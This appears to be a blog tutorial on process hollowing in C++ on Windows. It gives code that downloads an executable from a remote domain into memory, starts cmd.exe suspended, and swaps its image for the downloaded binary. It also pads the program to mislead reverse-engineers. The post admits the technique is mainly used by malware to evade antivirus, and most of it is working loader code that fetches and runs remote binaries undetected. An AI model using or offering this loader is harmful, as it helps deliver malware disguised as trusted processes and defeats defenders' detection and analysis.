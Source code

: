 {
    "title": "Process Hollowing",
    "description": "Streaming and executing binary code securely",
    "tags": ["Hacking", "Windows", "C++"],
    "author": "Noah",
    "date": "1/13/2023",
    "showTitle": true,
    "indexed": true,
    "pinned": false
}
### Introduction
Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.

> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to download and run an executable without reading or writing to the disk, which is very useful in preventing reverse-engineering of our code.

### Downloading Binary
We will use `WinHTTP` to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

    HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

    HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

 - `L"GET"` tells WinHTTP to create a `GET` request
 - `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file.exe`)
 - `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data.
 - `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

This code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

    WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
    WinHttpReceiveResponse(hRequest, NULL)

    DWORD contentLength = 0;
    DWORD contentLengthBufferSize = 128;
    WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
    unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array
            
    DWORD bytesRead = 0;
    WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process
> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

    CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

    bool bTarget32;
    IsWow64Process(PI.hProcess, &bTarget32);
    ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
    ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
    const bool bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

    DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
    DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
    if (dwSourceSubsystem != dwTargetSubsystem) 
        return;

Finally, we do the actual process hollowing

    bool bHasReloc = HasRelocation64(hFileContent);
    if (!bHasReloc) 
        RunPE64(&PI, hFileContent); 
    else 
        RunPEReloc64(&PI, hFileContent); 

### More Important Things
One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References 
 - [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
 - [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
 - [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)